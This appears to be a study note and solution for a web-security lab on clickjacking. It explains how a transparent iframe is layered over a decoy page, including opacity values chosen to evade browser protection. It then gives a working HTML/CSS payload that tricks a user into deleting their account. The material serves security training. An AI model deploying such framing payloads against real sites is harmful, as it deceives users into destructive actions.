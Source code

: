 - The target website iframe is positioned within the browser so that there is a precise overlap of the target action with the decoy website using appropriate width and height position values. 
- Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, browser type and platform. 
- The z-index determines the stacking order of the iframe and website layers. 
- The opacity value is defined as 0.0 (or close to 0.0) so that the iframe content is transparent to the user. 
- Browser clickjacking protection might apply threshold-based iframe transparency detection (for example, Chrome version 76 includes this behavior but Firefox does not). 
- The attacker selects opacity values so that the desired effect is achieved without triggering protection behaviors.

# Lab: Basic clickjacking with CSRF token protection
- This lab contains login functionality and a delete account button that is protected by a CSRF token. 
- A user will click on elements that display the word "click" on a decoy website.
- To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. 
- The lab is solved when the account is deleted.
```
<head>
	<style>
		#target_website {
			position:relative;
			width:500px;
			height:500px;
			opacity: 0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 460px;
            left: 60px
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
        <button>Click Here</button>
	</div>
	<iframe id="target_website" src="https://0ae1007a049f510b8018df7b00ad005d.web-security-academy.net/my-account">
	</iframe>
</body>
```
The lab was solved with the above payload
